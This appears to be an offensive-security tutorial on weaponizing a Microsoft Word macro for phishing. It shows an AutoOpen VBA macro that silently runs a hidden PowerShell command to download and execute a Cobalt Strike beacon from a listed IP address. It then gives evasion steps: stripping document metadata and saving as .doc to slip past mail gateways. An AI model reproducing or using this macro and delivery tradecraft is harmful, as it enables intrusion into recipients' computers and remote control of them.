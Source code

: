 ### Macros
1. Create a macro in MS Word:   `View -> Macros -> Create` 
2. This code will run `notepad.exe`
    ```vb copy showLineNumbers {4}
    Sub AutoOpen() 
        Dim Shell As Object
        Set Shell = CreateObject("wscript.shell")
        Shell.Run "notepad"
    End Sub
    ```
3. Replace `notepad` with a beacon shell, and the best to be used here is a **powershell** payload, can be generated with:  `Attacks -> Script web delivery (S)`. This will generate a beacon shell payload and host it on the **teamserver**, and will give you the `download / execute` payload for that beacon.
    ```vb copy showLineNumbers {4}
    Sub AutoOpen()
        Dim Shell As Object
        Set Shell = CreateObject("wscript.shell")
        Shell.Run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://192.168.5.130:80/a'))"""
    End Sub 
    ```
4. prepare document for delivery:
    -  `file -> info -> InspectDocument -> InspectDocument` then remove the `Document Properties and Personal Information.` to remove all metadata that would be embedded in the doc including your username.
    -  Save the file: `File -> Save As` and change the format from `.docx` to `Word 97-2003 (.doc)` as we  can't save macros into a `docx`, and Its suspecious to save it into a `docm` as most of the mail gateways block them entirely.

